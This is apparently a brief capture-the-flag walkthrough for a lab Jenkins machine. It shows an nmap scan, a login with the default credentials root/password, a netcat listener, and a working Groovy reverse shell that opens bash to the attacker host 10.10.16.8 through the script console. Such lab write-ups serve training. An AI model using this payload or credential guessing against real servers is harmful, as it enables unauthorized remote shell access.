






# 1.Port Scan
ip=10.129.169.55

nmap -sC -sV $ip



# 2.Jenkins Login
**http://$ip:8080**



Username: root
Password: password



# 3.Flag.txt get
## Receive Port

`nc -lvnp 8000`



## Reverse Shell

`http://$ip/script`

```
String host="10.10.16.8";
int port=8000;
String cmd="bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



